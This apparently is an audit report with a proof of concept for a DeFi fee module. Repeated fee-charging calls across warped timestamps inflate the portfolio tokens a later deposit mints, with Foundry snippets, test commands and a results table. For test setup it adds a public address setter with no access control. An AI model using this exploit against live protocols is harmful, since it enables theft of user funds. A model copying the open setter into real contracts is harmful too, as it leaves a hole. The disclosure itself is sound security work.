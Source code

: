 ## Requirement
**My setup doens't deploy via proxy, so a circular dependecy arose between feeModule.sol and portfolio.sol**

- therefore, i added this function to FeeModule.sol
```sol
function ChangePortfolioAddress(address _portfolio) public {
   portfolio = IPortfolio(_portfolio);
}
```
- And OfCourse this line:
```
import {IPortfolio} from  "src/contracts/core/interfaces/IPortfolio.sol";
```

## Setup
**`Now, All You have to do is to this:`**
- build dependencies quickly by running `forge build` , it would take 3 seconds hardly
- place gist in **test/** folder such that `test/POC.sol` file is created, i've already provided a link to a `gist` in issue comments *(probably last one)*




## The Attack

**`This attack outcomes depends on two things:`**
- the no of blocks, the attack is repeated in
- the timestamp difference between these blocks

**Analyze `_simulateAttacksInDifferentBlocks()`**
```diff
    function _simulateAttacksInDifferentBlocks() internal {
        vm.startPrank(attacker);
+        uint blocks = 20; // no of blocks
        for (uint i = 1; i < blocks; i++) {
+            vm.warp(block.timestamp + 50); //time-diff between blocks
            feeModule._chargeProtocolAndManagementFees();
        }
        vm.stopPrank();
    }
```
In Normal deposit, as per our current configurations, user will get  
- `9500000000000000`

**run this test**
```bash
forge test --contracts test/POC.sol --match-test test_NormalDeposit -vvv
```

**Now we wanna see change in protocol behaviour after it has been attacked:**

**Remember at this point, the alice is depositing after the protocol  has been attacked**


**`Here is table demonstrating different outcomes of increase in user portfolio balance, if he deposits the same amount after the protocol is attacked:`**


| Blocks | t+50             | t+10             | t+1              |
| ------ | ---------------- | ---------------- | ---------------- |
| 20     | 9500029476677719 | 9500005895327870 | 9500000589532575 |
| 200    | 9500308733951601 | 9500061745983933 | 9500006174579890 |
| 2000   | 9503101758218631 | 9500620270603930 | 9500062025233455 |
| 20000  | 9531077202869606 | 9506207323135757 | 9500620549828824 |



**where,**
- `blocks:`  *no of blocks attack is repeated in*
```sol
uint blocks = 20; // no of blocks
```
- `t + n:`  *timestamp difference between the no of blocks attack is repeated in*
```sol
vm.warp(block.timestamp + 50); //time-diff between blocks
```

**Try it yourself by running this test with different configurations**
```bash
forge test --contracts test/POC.sol --match-test test_AfterAttackDeposit -vvv
```

`[+]` **At this point it is clear how much protocol's calculations are affected, due to this attack the protocol can be rigged in lot of unimaginable ways, like you just saw in the table above how much more alice's same deposits yeild**

`[+]` **He should be only getting `9500000000000000` but due to the attack he was able to increase that number from least `9500000589532575` to `9531077202869606` as shown in the table above**

`[+]` **Which is `589532575` to `31077202869606` more tokens**

`[+]` **that means a user can mint more than `31077202869606` portflio tokens if he does the same deposits after the attack**
